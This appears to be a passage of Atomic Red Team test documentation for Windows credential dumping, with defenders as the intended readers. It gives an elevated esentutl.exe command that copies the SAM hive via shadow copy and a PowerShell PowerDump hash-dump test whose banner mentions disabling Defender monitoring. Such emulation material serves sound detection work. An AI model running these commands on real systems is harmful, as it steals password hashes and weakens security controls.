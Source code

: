 ## Atomic Test #3 - esentutl.exe SAM copy
Copy the SAM hive using the esentutl.exe utility
This can also be used to copy other files and hives like SYSTEM, NTUSER.dat etc.

**Supported Platforms:** Windows


**auto_generated_guid:** a90c2f4d-6726-444e-99d2-a00cd7c20480





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_path | Path to the file to copy | path | %SystemRoot%/system32/config/SAM|
| file_name | Name of the copied file | string | SAM|
| copy_dest | Destination of the copied file | string | %temp%|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
esentutl.exe /y /vss #{file_path} /d #{copy_dest}/#{file_name}
```

#### Cleanup Commands:
```cmd
del #{copy_dest}\#{file_name} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - PowerDump Hashes and Usernames from Registry
Executes a hashdump by reading the hashes from the registry.

**Supported Platforms:** Windows


**auto_generated_guid:** 804f28fc-68fc-40da-b5a2-e9d0bce5c193






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "STARTING TO SET BYPASS and DISABLE DEFENDER REALTIME MON" -fore green
Import-Module "PathToAtomicsFolder\..\ExternalPayloads\PowerDump.ps1"
Invoke-PowerDump
```
